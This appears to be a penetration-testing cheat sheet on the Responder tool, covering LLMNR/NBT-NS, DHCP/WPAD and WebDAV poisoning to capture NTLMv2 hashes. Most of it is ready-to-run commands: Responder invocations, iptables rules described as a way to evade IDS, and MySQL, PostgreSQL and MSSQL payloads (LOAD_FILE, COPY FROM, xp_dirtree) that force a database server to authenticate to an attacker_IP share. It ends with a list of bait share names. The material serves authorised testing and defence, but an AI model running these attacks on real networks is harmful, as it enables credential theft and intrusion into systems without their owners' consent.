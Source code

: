 # Responder

#mitm #responder #smb #relay #ntlm #sql #sqli

## 01 - Basics

### 1.1 - LLMNR

- **NBT-NS and LLMNR Poisoning via capturing NTLMv2-SSP hashes**

`$ sudo responder -I <interface> -rdwv`

- **LLMNR Poisoning**

`$ sudo responder -I eth0 --lm -v`

`C:\> net view \\snare`

`C:\> MpCmdRun.exe -Scan -ScanType 3 -File \\snare\share\file.txt`

`PS C:\> Resolve-DnsName -LlmnrOnly Snare 2> $Null`

### 1.2 - DHCP

- **DHCP and WPAD poisoning**

When a windows host requires a new IP address dynamically it can perform HTTP WPAD poisoning response while the user uses a web browser that contains auto proxy settings enabled

`$ sudo responder -I <interface> -Pdwv`

### 1.3 - WebDAV

- **Block SMB traffic on the attacker's machine to poison NTLMv2-SSP responses via WebDAV/HTTP**

Note: You don't have to block the ports unless you're evading some IDS to identify you for performing MITM poisoning

```
$ sudo iptables -A INPUT -p udp --dport 137 -j DROP
$ sudo iptables -A INPUT -p udp --dport 138 -j DROP
$ sudo iptables -A INPUT -p tcp --dport 139 -j DROP
$ sudo iptables -A INPUT -p tcp --dport 445 -j DROP
```

`$ sudo responder -I eth1 -Pdv`

`C:\> certutil -urlcache -split -f https://google.com file.txt`

`PS C:\> Invoke-WebRequest -Uri https://google.com -OutFile file.txt`

## 02 - DBMS Backend Relay Attack

### 2.1 - MySQL

```
SELECT LOAD_FILE('\\\\<attacker_IP>\\snare\')
```

### 2.2 - PostgreSQL

```
CREATE TABLE test_table(test_column TEXT);
COPY test_table(test_column) FROM '\\\\<attacker_IP>\\snare\';
DROP TABLE test_table;
```

### 2.3 - MSSQL

```
1> xp_dirtree '\\<attacker_IP>\snare\'
2> go

1> EXEC master.dbo.xp_dirtree '\\<attacker_IP>\snare\'
2> go

1> EXEC master..xp_subdirs '\\<attacker_IP>\snare\'
2> go

1> EXEC master..xp_fileexist '\\<attacker_IP>\snare\'
2> go
```

- **Capture hash**

`$ sudo responder -I tun0`

## 03 - Share Names Examples

### 3.1 - Hosts

- Make sure if none of these share names are included in the network when performing active poisoning

```
\\admin
\\administrator
\\cctv
\\client
\\host-01
\\itadmin
\\itdep
\\manager
\\pc-01
\\sysadmin
\\win-desktop
\\workstation-01
\\workstation-02
\\ws1
\\ws2
\\ws01
\\ws02
```

### 3.2 - Servers

- Make sure if none of these share names are included in the network when performing active poisoning

```
\\dc
\\dc01
\\developer
\\fileserver
\\ftp-srv
\\mail
\\mail-srv
\\rdpsrv
\\server
\\sms-sql
\\sql-srv
```

## References

- [Responder](https://github.com/lgandx/Responder)

- [Responders DHCP Poisoner](https://g-laurent.blogspot.com/2021/08/responders-dhcp-poisoner.html)

- [Pentesting MSSQL Microsoft SQL Server](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server)

- [Understanding UNC Paths SMB And WebDAV](https://www.n00py.io/2019/06/understanding-unc-paths-smb-and-webdav/)

- [The Dangers of Endpoint Discovery in Vipre Endpoint Security](https://www.n00py.io/2020/12/the-dangers-of-endpoint-discovery-in-vipre-endpoint-security/)

- [Places of Interest in Stealing NetNTLM Hashes](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)

- [Pwning a Shell via MSSQL DBMS](https://owasp.org/www-chapter-ghana/assets/slides/Pwning_a_shell_via_MSSQL_DBMS.pdf)

- [Using A SCF File to Gather Hashes](https://1337red.wordpress.com/using-a-scf-file-to-gather-hashes/)

- [SMB HTTP Auth Capture va SCF](https://room362.com/post/2016/smb-http-auth-capture-via-scf/)

- [A Detailed Guide on Responder LLMNR Poisoning](https://www.hackingarticles.in/a-detailed-guide-on-responder-llmnr-poisoning/)